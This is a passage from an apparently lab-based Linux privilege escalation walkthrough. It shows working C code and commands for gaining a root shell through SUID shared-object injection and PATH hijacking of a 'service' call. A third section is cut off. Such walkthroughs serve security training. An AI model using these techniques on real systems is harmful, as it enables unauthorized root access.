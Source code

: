 Run strace on the file and search the output for open/access calls and for "no such file errors": `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

First make the config directory, then create some simple c code to spawn a bash shell.

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    setuid(0);
    system("/bin/bash -p");
}
```

Compile this into a shared object at the location the `suid-so` executable was looking for it (/home/user/.config)

`gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c`

Now when the executable `suid-so` is ran we are given a root shell.

## SUID / SGID Executables - Environment Variables

The `/usr/local/bin/suid-env` executable can be exploited as it inherits the PATH variable and attempts to execute something without specifying the absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver: `/usr/local/bin/suid-env`

Run `strings /usr/local/bin/suid-env`. This will show that the `service` executable is being called but an absolute path is not specified.

Here is some simple c code to generate a shell

```c
int main() {
    setuid(0);
    system("/bin/bash -p");
}
```

Let's compile this code in the current location with gcc:`gcc -o service /home/user/tools/suid/service.c`. Now we prepend our location to the users PATH variable. `PATH=/home/user/tools/suid:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin`.

Now when `suid-env` is run then our service file is called instead which will spawn a root shell.

## SUID / GUID Executables - Abusing Shell Features (#1)

There is another binary located at `/use/local/bin/sudi-env2` that instead used the absolute path for service (`/usr/sbin/service`). This can be verified with `strings /usr/local/bin/suid-env2`.
